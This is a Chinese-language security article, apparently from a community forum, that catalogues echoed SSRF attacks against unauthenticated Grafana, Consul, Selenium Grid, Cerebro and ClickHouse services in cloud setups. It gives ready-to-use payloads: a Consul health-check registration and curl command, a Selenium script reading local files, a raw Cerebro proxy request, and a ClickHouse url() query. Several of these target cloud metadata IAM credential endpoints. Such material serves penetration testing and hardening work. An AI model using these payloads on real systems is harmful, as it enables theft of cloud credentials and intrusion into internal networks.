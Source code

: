 

# 云攻防中常见未授权下的回显 SSRF - 先知社区

云攻防中常见未授权下的回显 SSRF

- - -

# 常见未授权下的回显 SSRF 攻击面

回显 ssrf 在云攻防中往往能起到出其不意的效果，能撕开外网的防护，直接发起内网攻击，达到事半功倍。不仅能控制未授权 k8s api-server，还能获取元数据，运气好的情况还能直接获取 iam 认证信息。本文即总结实战过程中遇到过的一些回显 ssrf 的利用。

### Grafana

grafana 允许用户在平台配置数据源，因此在我们未从 grafana 中获取更多信息后，可以利用配置数据源的方式功能来实现 ssrf 攻击内网

利用工具 [https://github.com/RandomRobbieBF/grafana-ssrf](https://github.com/RandomRobbieBF/grafana-ssrf)

[![](assets/1708654671-cadca448dc1ff2ed66b53bff2ded320e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104422-1e3f7414-d063-1.png)

### Consul

consul 是一个服务注册发现组件，未授权若开启脚本检查/脚本执行可直接 RCE，但实战中遇到新版本较多，除信息泄露外，还可通过 consul 提供的监控功能实现 ssrf

通过 consul 提供的/v1/agent/check/register 注册健康检查接口，可实现回显 ssrf，但仅可显示部分数据，过长会被截断

创建 json 文件，内容如下

```bash
{ "id": "redis-1", "name": "Redis health check", "http": "http://xxxx/latest/iam/security_credentials", "tls_skip_verify": false, "method": "GET", "interval": "10s", "timeout": "1s" }
```

curl -X PUT [http://xxxxx.com/v1/agent/check/register](http://xxxxx.com/v1/agent/check/register) -d @json  
查看服务 health checks 即可查看 ssrf 回显内容

[![](assets/1708654671-151807a6d632342c82a23d232d74ce43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220160847-46166f3e-cfc7-1.png)

### Selenium Gird

Selenium 为常见自动化测试服务，可提供远程调用浏览器，未授权情况可直接新建 session 实现回显 ssrf

[![](assets/1708654671-514bd8d3e5c93ae2d8c44d20cef2647c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220160929-5ed07772-cfc7-1.png)

```bash
from selenium import webdriver
url='http://xxxxxxx:4444/wd/hub'
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument('--no-sandbox')
chrome_options.add_argument('-ignore-certificate-errors')
chrome_options.add_argument('--allow-file-access-from-files')
dr = webdriver.Remote(url, options=chrome_options)
dr.set_page_load_timeout(3)
dr.get('file:///')
#dr.get('http://xxxxx/latest/iam/')
print(dr.page_source)
```

### Cerebro

Cerebro 是一个开源 es 图形化服务管理工具，使用服务端连接 es，若公开到公网就会存在 ssrf 漏洞  
存在两个接口可以利用，首页/connect 连接 es 接口，无回显，不在此处列出  
进入功能页面，存在一个 rest 查询接口，页面功能如下：  
[![](assets/1708654671-dcbe2419e944e9bb64262864df0d81eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220161005-745cfbce-cfc7-1.png)

利用该接口即可实现回显 ssrf

```bash
POST /rest/request HTTP/1.1
Host: xxxxx:9000
Content-Length: 76
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSION=a479fcb2-d259-4833-bc88-c7cb1c896044; JSESSIONID=FF77ABF1DDD1AF7697078904978F866A
Connection: close

{"method":"GET","data":{},"path":"","host":"http://10.0.0.142:18801/health"}
```

### Clickhouse

clickhouse 为开源的一个用于联机分析 (OLAP:Online AnalyticalProcessing) 的列式数据库管理系统，提供了基于 http 接口为数据源的功能，若存在未授权或弱口令，可实现有限制的回显 ssrf  
以下 sql 语句即可实现回显 ssrf,

```bash
SELECT * FROM url('http://xxxxx/latest/iam/security_credentials/','TabSeparated','a String','auto');
```

[![](assets/1708654671-f2a74bc330420c37414960fd0ab5eaa4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104734-90b37cfc-d063-1.png)

[![](assets/1708654671-5c6cbf0756a66fb8e108140e6f3c043c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220161623-55af61fc-cfc8-1.png)

回显 ssrf 在云攻防中能造成意想不到的危害，获取元数据信息，攻击未授 k8s 组件等功能，一些自研反向代理、网关等均存在此类漏洞，不在赘述，仅为总结在实战过程中遇到的一些 ssrf，欢迎补充
